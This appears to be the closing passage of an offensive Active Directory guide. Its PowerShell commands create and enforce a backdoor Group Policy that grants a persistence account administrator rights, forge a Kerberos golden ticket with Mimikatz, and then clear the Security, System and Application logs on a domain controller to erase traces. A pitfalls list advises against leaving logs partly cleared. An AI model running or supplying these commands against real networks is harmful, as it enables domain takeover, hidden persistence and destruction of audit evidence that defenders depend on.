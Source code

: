 #### GPO Backdoor  
```powershell
New-GPO -Name "Corp-Backdoor" -Comment "Backdoor GPO"
Set-GPRegistryValue -Name "Corp-Backdoor" -Key "HKLM:\Software\Microsoft\Windows\CurrentVersion\Group Policy\Scripts\Logon\0\0" -ValueName "Script" -Type String -Value "powershell -Command `"Add-LocalGroupMember -Group 'Administrators' -Member 'corp\svc_persistence'`"
New-GPLink -Name "Corp-Backdoor" -Target "DC=corp,DC=corp,DC=local" -Enforced Yes
```

#### Golden Ticket  
```powershell
Mimikatz.exe 'kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:HASH /id:500 /groups:512 /ptt'
```

#### Cleanup  
- **Clear Event Logs**:  
  ```powershell
  Invoke-Command -ComputerName DC01.corp.local -ScriptBlock {
    wevtutil cl Security
    wevtutil cl System
    wevtutil cl Application
  }
  ```  
- **Remove Backdoor Account**:  
  ```powershell
  Remove-ADGroupMember -Identity "Domain Admins" -Members "svc_persistence" -Confirm:$false
  Remove-ADUser -Identity "svc_persistence"
  ```  
- **Revert AdminSDHolder ACL**:  
  ```powershell
  $sdhPath = "AD:CN=AdminSDHolder,CN=System,DC=corp,DC=local"
  $acl = Get-Acl $sdhPath
  $ace = $acl.Access | Where-Object { $_.IdentityReference -eq "corp\svc_persistence" }
  $acl.RemoveAccessRule($ace)
  Set-Acl -AclObject $acl $sdhPath
  ```  
- **Remove GPO**:  
  ```powershell
  Remove-GPO -Name "Corp-Backdoor" -Confirm:$false
  ```

### Common Pitfalls  
- Deleting your own rights prematurely.  
- Clearing only partial logs.  
- Leaving GPO links dangling.

---
